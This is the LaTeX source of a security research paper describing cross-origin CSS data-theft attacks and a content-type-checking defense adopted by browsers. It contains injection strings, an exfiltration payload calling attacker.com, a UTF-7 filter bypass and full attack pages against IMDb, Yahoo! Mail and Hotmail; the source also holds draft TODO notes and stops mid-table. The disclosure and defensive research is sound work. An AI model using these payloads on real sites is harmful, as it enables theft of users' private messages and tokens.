\documentclass{acm_proc_article-sp}
\usepackage{url}
\usepackage{verbatim}
\usepackage[utf8]{inputenc}
\usepackage{microtype}
\usepackage{booktabs}
\usepackage{upquote}
\hyphenation{brow-ser brow-sers tra-dit-ion-al ja-va-script Web-Kit}
\begin{document}
% fix some inappropriately large gaps - some of this must be after
% begin document
\itemsep 0pt
\partopsep 0pt
\topsep 0pt
\makeatletter
\def\paragraph{%
    \@startsection{paragraph}{4}{\z@}{\z@ \@plus \p@}{-5\p@}{\subsecfnt}}
\makeatother
\renewenvironment{itemize}{%
 \begin{list}{$\bullet$}
  {\setlength{\itemsep}{0pt}
   \setlength{\parsep}{3pt}
   \setlength{\topsep}{3pt}
   \setlength{\partopsep}{0pt}
   \setlength{\leftmargin}{1.5em}
   \setlength{\labelwidth}{1em}
   \setlength{\labelsep}{0.5em}}}
  {\end{list}}

\title{Protecting Browsers from Cross-Origin CSS Attacks}
\numberofauthors{4}
\author{
\alignauthor
Lin-Shung Huang\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{linshung.huang@sv.cmu.edu}
\alignauthor
Zack Weinberg\\
      \affaddr{Mozilla}\\
      \affaddr{zweinberg@mozilla.com}
\and
\alignauthor
Chris Evans\\
      \affaddr{Google}\\
      \affaddr{cevans@google.com}
\alignauthor
Collin Jackson\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{collin.jackson@sv.cmu.edu}
}

\newcommand{\todo}[1]{\textbf{[TODO: #1]}}

\maketitle
\begin{abstract}
Cross-origin CSS attacks use style sheet import to steal confidential
information from a victim website, hijacking a user's existing
authenticated session; existing XSS defenses are ineffective.  We show
how to conduct these attacks with any browser, even if JavaScript is
disabled, and propose a client-side defense with little or no impact
on the vast majority of web sites. We have implemented and deployed
defenses in Firefox, Google Chrome, and Safari. Our defense proposal
has also been adopted by Opera.
\end{abstract}

\category{K.6.5}{Management of Computing and Information Systems}
                {Security and Protection}

\terms{Security}

\keywords{CSS, Content Type, Same-Origin Policy}

\section{Introduction}\label{sec:intro}

The World Wide Web was originally envisioned \cite{wwwproposal} as a
means to collate a wide variety of human-readable, static documents,
present them via a unified interface, and facilitate browsing through
them by searching or via inter-document references. It has grown into
a versatile platform for all kinds of computing tasks, progressively
gaining support for data entry, client-side scripting, and
application-specific network dialogues.  Web-hosted applications have
supplanted traditional desktop applications for almost everything that
requires network communication, and are becoming competitive in other
areas.  It is not an exaggeration to say that the Web is the
development platform of choice for new software.

The \emph{same-origin policy}~\cite{mozillasameorigin} is the basic
principle used to secure Web applications from each other.  An HTML
document can load any sort of content---images, style sheets, nested
documents and “plug-ins,” even scripts---from any site.  However, the
scripts loaded into a document can only communicate with that site's
servers, and cannot examine content loaded from other sites.  This
policy applies even within what appears to the user to be one unified
“page;” for instance, scripts can only inspect the DOM tree for an
\texttt{IFRAME}'s nested document if that document came from the same
origin.  This allows sites to share popular script libraries and store
large, rarely-changing content (such as images and videos) on servers
dedicated to the purpose, while preventing malicious sites from
reading content that should be visible only to the user.

Cascading style sheets (CSS) are the third principal component of Web
documents; they define appearance, just as HTML defines content and
JavaScript behavior.  Proposals for author control of style were
circulated as early as 1993~\cite{css-history}, but the first complete
specification dates to 1996~\cite{css1} and was not implemented in a
widely-used browser till 1997~\cite{eich}.  The CSS specification is
continually being extended, and its original designers planned for
this.  As long as new CSS features conform to the
\emph{forward-compatible parsing rules} defined in \cite{syndata}, old
browsers will skip over features they do not implement, while
continuing to honor instructions that they do understand.  Web
designers can thus build sites that take advantage of the very latest
CSS features but “degrade gracefully” and remain usable with older
browsers.  Unfortunately, the forward-compatible parsing rules are so
permissive that they can find valid CSS constructs in an input stream
that was not intended to be CSS at all; for instance, in an HTML
document.

This leads to a security hole, first described (to our knowledge) in
2002 \cite{cssxss02} and rediscovered at least twice since then
\cite{cssxss05,cssxss08}.  If a malicious site can inject chosen
strings into a target webpage (whose structure, but not specific
contents, are known) and then load that page as a style sheet, it can
extract information from the page by examining what the CSS parser
makes of this “sheet.” The attack works even if the target page cannot
be retrieved without presenting login credentials, because the browser
will present any credentials (e.g.\ HTTP cookies) it has stored for
the target server when it does the load.  However, to date, all
published attacks of this type have required JavaScript, and most have
been specific to Internet Explorer.

In this paper, we present a general form of the attack that can be
made to work in any browser that supports CSS, even if JavaScript is
disabled or unsupported.  We then propose and implement modifications
to browser handling of CSS that completely block the attack, as long
as the victimized web site does not make certain errors (discussed in
Section~\ref{sec:missing}).  Our modifications have no negative side
effects for most websites, and have been adopted by Firefox, Google
Chrome, Safari, and Opera.

\paragraph{Organization}
The rest of this paper is organized as
follows. Section~\ref{sec:threatmodel} presents a threat model for
cross-origin CSS attacks.  Section~\ref{sec:attacks} describes the
attack in detail. Section~\ref{sec:defenses} proposes and evaluates
defenses.  Section~\ref{sec:relatedwork} surveys related work.
Section~\ref{sec:conclusion} concludes.

\section{Threat Model} \label{sec:threatmodel}

The threat model for cross-origin CSS attacks is a \emph{web
attacker}~\cite{jackson09thesis}, a malicious principal who
owns a domain name and operates a web server. The web attacker's
goal is to steal data from another web site (the \emph{target})
that should only be revealed to a particular user (the
\emph{victim}) and not to the attacker.

\paragraph{Attacker Abilities}
The web attacker can send and receive arbitrary network traffic, but
only from its own servers. It cannot modify or eavesdrop on the
victim's network traffic to other sites, nor can it generate “spoofed”
packets that purport to be from some other site. The web attacker
cannot install malicious software on the victim's computer; otherwise,
it could replace the browser and bypass any browser-based defenses.

\paragraph{Target Behavior}
The web attacker can inject strings into the target site, even into
pages that it cannot see, but its injections must pass server-side
cross-site scripting (XSS) filters such as HTML
Purifier~\cite{htmlpurifier}.  We do not assume that arbitrary string
injection is required, since such targets would be vulnerable to
conventional XSS attacks already.  Opportunities to inject strings
into the target are not unusual in practice: reflection of URL
parameters, intra-site messaging, or even non-web channels~\cite{xcs}.

\paragraph{Victim Behavior}
The web attacker can entice the victim into visiting its site; this is
easily done either by social engineering (e.g.\ sending bulk email to
encourage visitors), or by manipulating an advertisement network. We
do not assume that the victim discloses any sensitive information
while on the attacker's site; merely rendering the attacker's web
content is sufficient.

\section{Cross-Origin CSS Attacks} \label{sec:attacks}

In this section, we present cross-origin CSS attacks in detail.
First, we describe aspects of browser behavior that, together,
make these attacks possible.  Second, we lay out the steps of an
attack on a hypothetical website.  Third, we discuss constraints on
practical executions of the attack.  Finally, we demonstrate that the
attack can be carried out against several popular web applications.

\subsection{Browser Behavior} \label{sec:behavior}

Cross-origin CSS attacks are possible because of existing browser
behaviors, reasonable taken in isolation, but with unexpected
interactions: session authentication, cross-origin content inclusion,
and error-tolerant style sheet parsing.

\subsubsection{Session Authentication}
Web applications that handle sensitive data typically use client-side
state to manage a distinct “session” for each visitor.  The most
common technique uses HTTP cookies~\cite{rfc2109,httpstate} to define
a session; HTTP authentication~\cite{rfc2617} is also viable, but less
popular since it gives the application less control over user
experience.  Either way, once a user has logged into a web
application, their browser will transmit a credential with every HTTP
request to that server, allowing the server to identify the session
and reply with HTML documents containing confidential information
intended only for that user.  A request for the same URL without the
credential produces an HTTP error, or a generic document with no
confidential information.

\subsubsection{Cross-Origin Content Inclusion}
As discussed in Section~\ref{sec:intro}, browsers permit web pages to
reference resources (images, scripts, style sheets, etc.) from any
origin, not just from the server hosting the page itself. Requests for
cross-origin resources transmit any credentials (cookies or HTTP
authentication tokens) associated with the site that hosts the
resource, \emph{not} credentials associated with the site whose page
made the reference. Thus, confidential information from one site can
be “transcluded” into a page that could not read it directly (thanks
to the same-origin policy.)  There it will be visible to the user, but
not to scripts running in the page.

\todo{The next few paragraphs don't make any sense. -zw}

Unfortunately, session-authenticated URLs may be abused by malicious
sites in cross-site request forgery~\cite{csrf} attacks to disrupt the
integrity of the user's session with an honest site. And a general
problem of confidential data theft arises when a resource (on the
target site) bypasses the browser's security restrictions for library
imports:
\begin{itemize}
\item The embedded content must conform to a benign library
format. This may be defeated since the browser allow
error-tolerant parsing for certain library formats. The HTTP
\texttt{Content-Type} header is supposed to indicate the type of
the content being transmitted, using the Multipurpose Internet
Mail Extensions (MIME) type vocabulary~\cite{mime}. However,
browsers typically don't check the content type for library
imports and attempts to parse any response from the server (some
even ignore HTTP error codes.)
\item The embedded content shouldn't be read back by the
requesting page. However, we have known security gaps in the
JavaScript environment where it is possible to violate the
same-origin policy: imported styles could be revealed by
inspecting computed styles; imported scripts could be revealed
by redefining callback functions or modifying object
prototypes~\cite{rootkits}; even partial information of embedded
HTML documents may be revealed by inspecting the height
attribute of auto-sized seamless iframes.
\end{itemize} One of the better researched vulnerabilites of
this class is known as JavaScript hijacking~\cite{jshijacking},
where a confidential JSON document is parsed as a valid script
and could be stolen by a malicious site (further discussed in
Section~\ref{sec:json}). A potentially severe vulnerablity might
exist if an attacker-manipulated content was parsed as embedded
objects in browser plugins and executed in the origin of the
server hosting the resource. In this paper, we present the
cross-origin CSS attack as another form of cross-origin content
inclusion vulnerabilites.

\begin{figure*}[t]
\begin{center}

\includegraphics[width=5in]{victim-manipulation}
\vskip 0.5em
\setlength{\tabcolsep}{0.12in}
\begin{tabular}{p{1.5in}p{1.5in}p{1.5in}}
\centering
HTML document; secret data is highlighted.&
\centering
Attacker injects CSS leader and trailer around secret.&
\centering
CSS parser skips most of the document, loads secret as a valid style rule.
\end{tabular}
\end{center}
\caption{Anatomy of the attack.}
\label{figure:victim}
\end{figure*}

\subsubsection{Error-Tolerant Style Sheet Parsing} \label{sec:lax}
CSS syntax has much more in common with JavaScript than with HTML.
HTML uses angle brackets to delimit \emph{tags} that must nest; text
outside tags is mostly unparsed. CSS and JavaScript both use curly
braces to enclose \emph{blocks}; inside or outside a block, the input
text must follow a formal grammar.  However, CSS's keywords are almost
entirely different from JavaScript's keywords.

When browsers encounter syntax errors in CSS, they discard the current
syntactic construct, skip ahead until what appears to be the beginning
of the next one, then start parsing again.  The CSS
specification~\cite{syndata} defines precisely how this must be done,
so that browsers will behave predictably when they see new CSS
features they do not understand.  When skipping ahead, the browser
uses only a few simple grammar rules:

\begin{itemize}
\item Depending on where the syntax error occurred, the next syntactic
  construct might begin after the next semicolon, after going up one
  brace level, or after the next brace-enclosed block.
\item While skipping, parentheses, square brackets, and curly braces
  must still be properly balanced and nested.
\item Unlike in HTML, angle brackets are not expected to balance.
\item \verb|/* ... */| is a comment to be ignored, as in JavaScript.
  However, unlike JavaScript, \verb|//| does \emph{not} indicate the
  beginning of a single-line comment.
\item Single- and double-quoted strings also work as in JavaScript;
  backslash escapes are a little different, but this doesn't matter
  for our purposes.  Internet Explorer permits strings to extend past
  a line break, but in all other browsers this is a syntax error.
\item The end of a style sheet closes all open constructs
  \emph{without error}.
\end{itemize}

The left angle bracket, \texttt{<}, so common in HTML, has no meaning
in CSS; it will invariably cause a syntax error.  (The right angle
bracket, \texttt{>}, can appear within CSS selectors.)  Thus, a CSS
parser encountering an HTML document will go into skip-ahead mode on
the very first tag in the document, and will probably stay there until
the end of the file.

\begin{table*}
\centering
\footnotesize
\begin{tabular}{crccccc}
\toprule
Approach&\multicolumn{1}{c}{API}&IE&FF&Opera&Safari&Chrome\\
\midrule
CSS Object Model&
  \texttt{styleSheets[].cssRules[].cssText}&&&&\checkmark&\checkmark\\
 &\texttt{getMatchedCSSRules().cssText}&&&&\checkmark&\checkmark\\
\addlinespace
Computed Style&
  \texttt{getComputedStyle}&&\checkmark&\checkmark&\checkmark&\checkmark\\
 &\texttt{currentStyle}&\checkmark&&\checkmark&&\\
\addlinespace
Without JavaScript&
  \texttt{background-image}, etc.&
  \checkmark&\checkmark&\checkmark&\checkmark&\checkmark\\
\bottomrule
\end{tabular}
\caption{Methods of Extracting Information from Cross-Origin Style Sheets}
\label{table:DOM}
\end{table*}

\subsection{Attack Steps}

In a cross-origin CSS attack, the attacker injects strings into the
target document that bracket the data to be stolen.  Then it entices
the victim into visiting a malicious page under its own control.  The
malicious page imports the target document as if it were a style
sheet, and can extract confidential information from the parsed style
rules, even without JavaScript.  Figure~\ref{figure:victim}
illustrates the anatomy of the attack. (The text in
Figure~\ref{figure:victim} has been word-wrapped for readability; if
line breaks were present in between the injected blocks, the attack
would be limited as discussed in Section~\ref{sec:linebreaks}.)

\subsubsection{CSS String Injection}
One might expect that an HTML document, when parsed as a style sheet,
would produce nothing but syntax errors.  However, because of the
predictable error recovery rules described in Section~\ref{sec:lax},
it is possible to inject strings into a document that will cause the
CSS parser to come out of error recovery mode at a predictable point,
consume some chunk of the document as a \emph{valid} rule, and then
return to skipping.  Attackers have many options for injecting text
into a web page, even one they cannot see without authentication.
Our demonstration attacks in Section~\ref{sec:demos} use
intra-site private messages or junk email sent to the victim.

In the example in Figure~\ref{figure:victim}, the attacker has
arranged to insert two strings into the document:
\begin{itemize}
\item \verb|{}#f{font-family:'| before the secret
\item \verb|';}| after the secret
\end{itemize}
The target site has wrapped each of these in an HTML \verb|<span>|,
which is harmless to the attacker's purpose.  The opening string has
three components: The attacker can safely assume that the CSS parser
is in error recovery mode, looking for a brace-enclosed block, when it
encounters the two-character synchronization sequence \verb|{}|.  This
sequence will take the CSS parser out of error recovery, unless there
is something before the injection point that must be balanced---an
unclosed string or CSS comment, or an unmatched \verb|{| \verb|[| or
\verb|(|.  If the attacker can predict what comes before the injection
point, it can tailor the synchronization sequence to match.  The next
component, \verb|#f{font-family:| is the beginning of a valid CSS
style rule, declaring the font family for an element in the attacker's
document (with ID \texttt{f}). The \texttt{font-family} property
takes a string constant as its value; thus the final component of the
opening string is a single quote character, \verb|'|.  The CSS parser
will absorb whatever follows as a string, as long as it contains
neither line breaks nor another single quote.
The closing string simply ends the CSS string constant with another
quote mark, and then closes the style rule with a semicolon and a
close brace.  (The semicolon could be omitted.)  Regardless of what
appears after the close brace, this style rule has been successfully
parsed and will be visible to the attacker's document.

\subsubsection{Cross-Origin CSS Import}
When the victim user visits \texttt{attacker.com}, the attacker's page
instructs the victim's browser to fetch and load the target document,
with its injected strings, as an external style sheet.  This can be
done with the \texttt{link} tag~\cite{html}:

\verb|<LINK REL="stylesheet" HREF="http://target.com">|

or with the CSS “import” directive, in an internal style sheet:

\verb|<STYLE>@import url(http://target.com);</STYLE>|

The attacker must ensure that their page is in “quirks mode,” but this
is easy to do: simply do not begin the page with any \verb|DOCTYPE|
declaration.%, and do not serve it as XHTML.

\subsubsection{Confidential Data Extraction}\label{sec:extraction}
Having loaded the target document as a style sheet, the attacker must
extract the secret from its style rules. There are three ways to do
this, some of which work under more conditions; Table~\ref{table:DOM}
summarizes them.

\paragraph{CSS Object Model}
JavaScript can read the text of successfully parsed style rules via
the \texttt{cssText} property of \emph{style rule} objects.  All the
style rules for a document are visible in the
\texttt{document.styleSheets[].cssRules[]} arrays.  Safari and Google
Chrome also provide the \texttt{getMatchedCSSRules} utility function
that can retrieve style rules matched by an element.  This is perhaps
the most convenient way to extract secrets, but it only works in
Safari and Chrome.  IE, Firefox, and Opera have blocked JavaScript
access to style rules from sheets loaded cross-origin since 2002 (in
response to~\cite{cssxss02}).  In the example in
Figure~\ref{figure:victim}, \texttt{cssRules[0].cssText} would expose
all of the text that isn't struck out in the right-hand document.
Once the secret is visible to JavaScript, it can be transmitted to the
attacker's server using \texttt{XMLHttpRequest} or a hidden form.

\paragraph{Computed Style}
JavaScript can also inspect the \emph{computed style} in effect for an
element, using either the standard function
\texttt{getComputedStyle}~\cite{domcss} supported in most browsers or
the \texttt{currentStyle} object in IE.  The attacker can easily
ensure that the style was computed from the style rule containing the
secret.  No current browser blocks access to computed style if it was
computed from a cross-origin style sheet's rules, so this variant
works in any current browser as long as JavaScript is enabled.  In the
example in Figure~\ref{figure:victim},
\texttt{getComputedStyle(f).style.fontFamily} would expose the text
highlighted in white in the right-hand document.

\paragraph{Without JavaScript}
This attack is even possible if users have disabled JavaScript,
as illustrated in Figure~\ref{figure:steps}.  Several CSS
properties can direct the browser to load an arbitrary URL; for
instance, the attacker might change their injected strings to:

\begin{itemize}
\item \verb|{}#f{background-image:url('http://attacker.com/?|\\
  before the secret
\item \verb|');}| after the secret
\end{itemize}

If there is an element matching this rule in the attacker's page, the
browser will try to load a background image for it from the attacker's
server, providing the secret to be stolen as the query string.

\begin{figure*}
\centering

\includegraphics[width=\linewidth]{steps}
\caption{Steps of the Cross-Origin CSS Attack without JavaScript}
\label{figure:steps}
\end{figure*}

\subsection{Attack Limitations} \label{sec:limits}
The attacker's ability to conduct a cross-origin CSS attack is limited
by the structure and behavior of the target web site.

\subsubsection{Insufficient Injection points}
The secret to be stolen is encapsulated within a CSS string constant
or \verb|url()| literal, within a property value, within a style rule.
To do this, the attacker must inject \emph{two} strings into the
document containing the secret: one to begin the rule, and one to end
it. Sites that accumulate user-submitted text (comments on blogs, for
instance) are relatively more susceptible to this attack; the attacker
can inject one string, wait a while, and then inject another.  Also,
the string that must appear after the secret is very simple---often
just a close quote and a close brace---and may already be present in
the target page; this was the case in~\cite{cssxss08}.

\subsubsection{Quotes}
CSS string constants can be written with single or double
quotes. Double quotes cannot occur inside a double-quoted string, and
single quotes cannot occur inside a single-quoted string, unless they
are escaped with backslashes. Thus, if the secret to be stolen
contains single quotes, the attacker must use double quotes in their
injected strings, and vice versa. If the secret contains both types of
quotes, or the attacker cannot predict which type of quotes it will
contain, the attack may fail. However, unquoted \texttt{url()}s may
contain unescaped quotes in Internet Explorer.

\subsubsection{Line Breaks} \label{sec:linebreaks}
CSS string constants and unquoted \texttt{url()}s cannot contain line
breaks, unless they are escaped with backslashes. Therefore, any line
break within the secret will cause the attack to fail. HTML pages tend
to contain many line breaks; this, all by itself, protects many
potential target sites from CSS data theft attacks. However,
rich-functionality sites often offer URL-based APIs that deliver
confidential information in a custom JSON or XML format, with no line
breaks; these APIs may be vulnerable to CSS data theft even if the
human-visible site isn't.  Some sites provide a “mobile” version of
their content, optimized for devices with small screens and limited
bandwidth; one common optimization is to strip all unnecessary
whitespace, including newlines.  Again, this may be vulnerable even if
the regular site isn't.

Internet Explorer permits unescaped line breaks in CSS string
constants and \texttt{url()}s. This makes attacks far easier to
construct if the victim is known to use IE.

\subsubsection{Character Escapes} \label{sec:utf7}
Server-side filters aiming to remove malicious code from
user-submitted content are common, but they are usually designed to
strip dangerous HTML attributes and defang JavaScript keywords.  They
will not block cross-origin CSS attacks, because the injected strings
won't be nested within HTML attributes, and CSS shares very few
keywords with JavaScript.

Some filters also replace particular punctuation characters with
equivalent HTML entities.  Single and double quotes are often
replaced, because of their significance in both HTML and JavaScript.
If \emph{any} of the punctuation in the injected strings is replaced
with an entity, the attack will fail.

\paragraph{Forcing UTF-7}
The attacker may be able to defeat filters that replace punctuation
with entities, by pre-encoding the replaced characters in
UTF-7~\cite{utf7}.  For instance, if the target site replaces single
quotes with entities, but leaves the other punctuation alone, the
injected strings would become
\begin{itemize}
\item \verb|{}#f{font-family:+ACI-| before the secret
\item \verb|+ACI-;}| after the secret
\end{itemize}
The attacker would then request UTF-7 decoding from the CSS parser,
by specifying a character set in their \verb|link| tag:

\verb|<LINK REL="stylesheet" HREF="http://target.com"|\\
\verb| CHARSET="utf-7">|

This trick does not work if the target site specifies a character set
in its \texttt{Content-Type} header.  Unfortunately, only 584 out of
the top 1,000 web sites ranked by Alexa~\cite{alexa} specify character
sets for their home pages in their \texttt{Content-Type} headers.
Many of the others do provide character set information in a
\verb|meta| tag, but the CSS parser pays no attention to HTML
\verb|meta| tags, so that will not thwart an attacker's specification
of UTF-7 in a \verb|link| tag.
% Should we mention the vulnerable browsers (Firefox)?

\subsection{Example Attacks} \label{sec:demos}
We have successfully carried out cross-origin CSS attacks on several
popular websites.

\paragraph{IMDb}
IMDb is an online database of movies and related information, which
allows registered users to rate films, make posts on message boards,
and send private messages to each other.  An attacker with an account
on the site can steal the text of private messages to a victim user,
with these steps:

\begin{enumerate}
\item Send a private message to the victim's account, with the subject
  line: \verb|{}body{font-family:'|
\item Induce the victim to visit \texttt{attacker.com} while signed
  into IMDb; the attacking page is as follows:
\begin{verbatim}
<html>
<head>
<link rel="stylesheet"
     href="http://www.imdb.com/user/
           ur12345678/boards/pm/">
<script>
function steal() {
  alert(document.body.
    currentStyle["fontFamily"]);
}
</script>
</head>
<body onload="steal()">
</body>
</html>
\end{verbatim}
\end{enumerate}

The attacker must know the victim's account ID (\texttt{ur12345678} in
the example); this is public information that can be learned from the
victim's user profile page, even if one is not logged in.  The browser
will retrieve the victim's private messaging page, using the
appropriate credentials from the victim's IMDb session, and process it
as a style sheet.  The private message sent by the attacker will cause a
fragment of HTML, including the full text of earlier private messages
to the victim, to be absorbed as a CSS property value, which is then
revealed to JavaScript via \texttt{currentStyle}.

This attack works only in IE, due to line breaks in the HTML for the
private messaging page.  This is why the JavaScript above uses only
the IE-specific mechanism for retrieving the computed style.  It is
not necessary to inject a second string after the text to be stolen,
because the end of the page serves that purpose (recall that end of
style sheet closes open CSS constructs without error).

\paragraph{Yahoo! Mail}
Yahoo! Mail is a popular web-based email service.  Its session cookies
persist for up to two weeks if users do not actively log out.  An
attacker can steal subject lines and CSRF tokens from a victim's email
inbox with these steps:

\begin{enumerate}
\item Send an email to the victim with the subject line:
  \verb|');}|
\item Wait for some time while the victim receives other messages.
\item Send another email to the victim with the subject line:
  \verb|{}body{background-image:url('|
\item Induce the victim to visit \texttt{attacker.com} while signed
  into Yahoo! Mail.  The attacking page is as follows:
\begin{verbatim}
<html>
<head>
<link rel="stylesheet"
     href="http://m.yahoo.com/mail">
<script>
function steal() {
  if(document.body.currentStyle) {
    alert(document.body.
      currentStyle["backgroundImage"]);
  } else {
    alert(getComputedStyle(document.body, "").
      backgroundImage);
  }
}
</script>
</head>
<body onload="steal()">
</body>
</html>
\end{verbatim}
\end{enumerate}

We use \texttt{background-image} instead of \texttt{font-family} in
this attack to illustrate the variety of CSS properties that can be
used.  The attacking page requests the mobile version of the site by
loading \url{http://m.yahoo.com/mail} rather than
\url{http://www.yahoo.com/mail}.  To reduce bandwidth requirements,
the mobile site has all unnecessary whitespace removed from its HTML,
including newlines; this allows the CSS portion of the attack to
succeed in more browsers, hence the JavaScript detects which of
the two methods for retrieving computed style is supported.

The stolen HTML fragment contains the subject lines of every email
delivered to the victim in between the two attack messages.  It also
contains a hidden, unguessable token for each message; these tokens
allow the attacker to delete messages via CSRF.

\paragraph{Hotmail}
Windows Live Hotmail is an web-based email service operated by
Microsoft. It is vulnerable to nearly the same attack as Yahoo!
Mail: we can read messages and acquire CSRF tokens by sending
two emails to a victim Hotmail account with crafted subject
lines, then loading the mobile Hotmail website
\url{http://mail.live.com/m/} as a style sheet. Unlike the
mobile version of Yahoo! Mail, Hotmail delivers HTML containing
newlines, which limits the attack to Internet Explorer.

The existence of nearly identical attacks on unrelated websites
illustrates the general nature of cross-origin CSS vulnerabilities. We
expect that many social networking sites are vulnerable to variants of
this attack as well, because the attacker can leave arbitrary text
comments that are rendered somewhere on the victim's view of the page.

\section{Defenses} \label{sec:defenses}

In this section, we propose a client-side defense against cross-origin
CSS attacks, evaluate it for compatibility with existing web sites,
and review its adoption by major browsers.  We also examine a few
alternative client-side defenses and complementary server-side measures.

\subsection{Proposal: Content Type Checking for CSS} % Is this a good name?
   \label{sec:proposal}

\begin{table*}
\centering
\def\m#1#2{\multicolumn{#1}{c}{#2}}
\begin{tabular}{crrrrrrr}
\toprule
  Requesting&      \m1{Page}&        &           &      \m2{Correct type}&    \m2{Incorrect type}\\
      server& \m1{rendering}&   Total& HTTP error& Well-formed& Malformed& Well-formed& Malformed\\
\midrule
 Same-Origin& Standards Mode& 180,445&      1,497&     178,017&       506&         424&         1\\
            &    Quirks Mode&  25,606&        466&      24,445&       332&         304&        59\\
\addlinespace
Cross-Origin& Standards Mode&  47,943&        347&      47,345&       104&         147&         0\\
            &    Quirks Mode&   6,075&         53&       5,891&        57&          74&         0\\
\addlinespace
            &          Total& 260,069&      2,363&     255,698&       999&         949&        60\\
\bottomrule
\end{tabular}
\caption{Categorization of CSS references for the Alexa top 100,000 sites.}
\todo{need the lines back!}
\label{table:results}
\end{table*}

In a cross-origin CSS attack, the attacker’s web page causes the
victim’s browser to parse the target document as a style sheet.  The
attack works because the browser will attempt to parse \emph{anything}
that was requested by a stylesheet \verb|link| or \verb|@import| as if
it were CSS. This is a backward compatibility feature, part of the
“quirks mode” applied to HTML documents that do not include a proper
document type definition (DTD). In the “standards mode” recommended
for new sites, style sheets will only be processed if they are labeled
with the HTTP header \verb|Content-Type: text/css|.

The attacker, of course, controls whether or not the attacking page is
in quirks mode. However, the attacker has no control over the
\texttt{Content-Type} header labeling the \emph{target} page; that's
generated by the target site's server. Therefore, our proposed
client-side defense is to enforce content type checking for style
sheets loaded cross-origin, even if the requesting page is in quirks
mode. We describe two variants on this proposal.  Strict enforcement
only allows cross-origin CSS loads with the correct content type.
Tolerant enforcement allows apparently benign content type mismatches
in order to maximize web site compatibility.

\subsubsection{Strict Enforcement} \label{sec:strict}
Strict enforcement refuses to load \emph{any} style sheet
cross-origin, unless it is properly labeled with
\verb|Content-Type: text/css|. Since the target page is labeled
\verb|text/html|, \texttt{application\slash{}json},
\verb|text/rss+xml|, or some other non-CSS content type, the browser
will not load it as a style sheet, foiling a cross-origin CSS attack.

Strict enforcement may cause legitimate requests for cross-origin
style sheets to fail, if the server providing the style sheet is
misconfigured.  Unfortunately, content type misconfigurations are
common, so strict enforcement may be too risky for browser vendors to
adopt.

\subsubsection{Tolerant Enforcement}
To address this concern, we also propose a more conservative solution:
tolerant enforcement blocks a CSS resource if and only if it is loaded
cross-origin, has an invalid content type, and is syntactically
malformed. When the browser encounters a cross-origin style sheet
labeled with the wrong content type, it begins parsing the sheet as
CSS, but if it encounters a syntax error before it has processed the
first complete style rule, it stops and discards the sheet. This rule
allows legitimate but misconfigured sites to continue to work, as long
as the first thing in their cross-origin, mislabeled style sheet is a
well-formed CSS rule. This defense will still foil most cross-origin
CSS attacks, which attempt to load a non-CSS document as CSS; for
instance, HTML almost always begins with \verb|<html>| or a
\verb|DOCTYPE| declaration, either of which will cause a CSS syntax
error.

\subsection{Experiment}
To evaluate the compatibility of our proposed defense of content
type checking for cross-origin CSS loads, we surveyed the public
Web to determine how often servers fail to provide the correct
content type for style sheets, how often style sheets begin with
a CSS syntax error, and how often style sheets are requested
from a different origin.

\begin{table}[b]
\centering
\begin{tabular}{lrr}
\toprule
\multicolumn{1}{c}{Incorrect \texttt{Content-Type}}&
\multicolumn{2}{c}{Occurrences}\\
\midrule
               \texttt{text/html}& 715& (71\%)\\
              \texttt{text/plain}&  45&  (4\%)\\
\texttt{application/octet-stream}&  29&  (3\%)\\
                            other&  42&  (4\%)\\
                           missing& 178& (18\%)\\
\bottomrule
\end{tabular}
\caption{Incorrect content types observed for CSS.}
\label{table:MIME}
\end{table}

\paragraph{Design}
Using an instrumented browser based on WebKit~\cite{webkit}, we
crawled the top 100,000 web sites ranked by Alexa~\cite{alexa} and
identified all of the style sheet resources used by their front pages.
Our instrumentation reported every style sheet requested while the
page itself was loading.  This allowed us to identify sheets used
indirectly via CSS \verb|@import| directives, and sheets added by
JavaScript during page load, as well as those referenced directly in
the HTML.

% This table is here rather than with “Adoption” so it'll come out in
% the right place in the printed document.
\begin{table*}
\centering
\begin{tabular}{lccccccc}
\toprule
\multicolumn{1}{c}{\texttt{Content-Type}}
&Opera&Safari&Chrome&Firefox 3.5/3.6&Firefox 4&IE 8&\\
\midrule
\texttt{text/html},
